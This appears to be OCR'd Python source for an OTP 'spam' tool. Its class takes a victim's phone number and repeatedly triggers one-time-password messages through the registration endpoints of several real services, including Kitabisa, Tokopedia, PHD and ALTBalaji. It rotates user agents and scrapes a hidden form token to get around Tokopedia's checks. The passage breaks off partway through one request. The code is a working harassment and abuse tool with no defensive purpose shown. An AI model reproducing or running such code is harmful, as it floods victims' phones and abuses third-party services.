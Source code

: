 class spam:
		
	def __init__(self, nomer):
		self.nomer = nomer
		
	def spam(self):
		hasil=requests.get(f'https://core.ktbs.io/v2/user/registration/otp/{self.nomer}')
		if hasil.status_code == 200:
			return f'\x1b[92mSpamm kitabisa {self.nomer} \033[1;32mSuccess!'
		elif hasil.status_code == 500:
			return f'\x1b[91mSpamm kitabisa {self.nomer} \x1b[91mFail!'
			
	def tokped(self):
		rands=random.choice(open('ua.txt').readlines()).split('\n')[0]
		kirim = {
			'User-Agent' : rands,
			'Accept-Encoding' : 'gzip, deflate',
			'Connection' : 'keep-alive',
			'Origin' : 'https://accounts.tokopedia.com',
			'Accept' : 'application/json, text/javascript, */*; q=0.01',
			'X-Requested-With' : 'XMLHttpRequest',
			'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8'
		}
		regist = requests.get('https://accounts.tokopedia.com/otp/c/page?otp_type=116&msisdn='+self.nomer+'&ld=https%3A%2F%2Faccounts.tokopedia.com%2Fregister%3Ftype%3Dphone%26phone%3D{}%26status%3DeyJrIjp0cnVlLCJtIjp0cnVlLCJzIjpmYWxzZSwiYm90IjpmYWxzZSwiZ2MiOmZhbHNlfQ%253D%253D', headers = kirim).text
		Token = re.search(r'\<input\ id=\"Token\"\ value=\"(.*?)\"\ type\=\"hidden\"\>', regist).group(1)
		formulir = {
			"otp_type" : "116",
			"msisdn" : self.nomer,
			"tk" : Token,
			"email" : '',
			"original_param" : "",
			"user_id" : "",
			"signature" : "",
			"number_otp_digit" : "6"
		}
		req = requests.post('https://accounts.tokopedia.com/otp/c/ajax/request-wa', headers = kirim, data = formulir).text
		if 'Anda sudah melakukan 3 kali pengiriman kode' in req:
			return f'\x1b[91mSpamm Tokped {self.nomer} \x1b[91mFail!'
		else:
			return f'\x1b[92mSpamm Tokped {self.nomer} {h}Success!'

	def phd(self):
		param = {'phone_number':self.nomer}
		r = requests.post('https://www.phd.co.id/en/users/sendOTP', data=param)
		if 'We have sent an OTP to your phone, Please enter the 4 digit code.' in r.text:
			return f'\x1b[92mSpamm PHD {self.nomer} {h}Success!'
		else:
			return f'\x1b[91mSpamm PHD {self.nomer} {m}Fail!'
			
	def balaji(self):
		urlb="https://api.cloud.altbalaji.com/accounts/mobile/verify?domain=ID"
		kod="62"
		ata={
				"country_code":kod,
				"phone_number":self.nomer
			}
		head={
			"Content-Length":f"{len(str(ata))}",
			"Accept":"application/json, text/plain, */*",
			"Origin":"https://lite.altbalaji.com",
			"Save-Data":"on",
			"User-Agent":"Mozilla/5.0 (Linux; Android 8.1.0; vivo 1718) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.89 Mobile Safari/537.36",